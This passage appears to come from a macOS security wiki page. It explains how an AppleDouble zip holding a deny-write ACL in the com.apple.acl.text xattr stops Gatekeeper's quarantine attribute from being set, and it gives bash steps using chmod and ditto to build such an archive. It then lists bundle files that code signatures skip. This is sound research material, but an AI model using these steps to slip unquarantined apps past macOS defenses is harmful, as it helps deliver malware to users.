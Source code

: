 ### **com.apple.acl.text xattr + AppleDouble**

**AppleDouble** file format copies a file including its ACEs.

In the [**source code**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) it's possible to see that the ACL text representation stored inside the xattr called **`com.apple.acl.text`**  is going to be set as ACL in the decompressed file. So, if you compressed an application into a zip file with **AppleDouble** file format with an ACL that prevents other xattrs to be written to it... the quarantine xattr wasn't set into de application:

Check the [**original report**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) for more information.

To replicate this we first need to get the correct acl string:

```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```

(Note that even if this works the sandbox write the quarantine xattr before)

Not really needed but I leave it there just in case:

{% content-ref url="macos-xattr-acls-extra-stuff.md" %}
[macos-xattr-acls-extra-stuff.md](macos-xattr-acls-extra-stuff.md)
{% endcontent-ref %}

## Bypass Code Signatures

Bundles contains the file **`_CodeSignature/CodeResources`** which contains the **hash** of every single **file** in the **bundle**. Note that the hash of CodeResources is also **embedded in the executable**, so we can't mess with that, either.

However, there are some files whose signature won't be checked, these have the key omit in the plist, like:

```xml
<dict>
...
	<key>rules</key>
	<dict>
...
		<key>^Resources/.*\.lproj/locversion.plist$</key>
		<dict>
			<key>omit</key>
			<true/>
			<key>weight</key>
			<real>1100</real>
		</dict>
...
	</dict>
	<key>rules2</key>
...
		<key>^(.*/)?\.DS_Store$</key>
```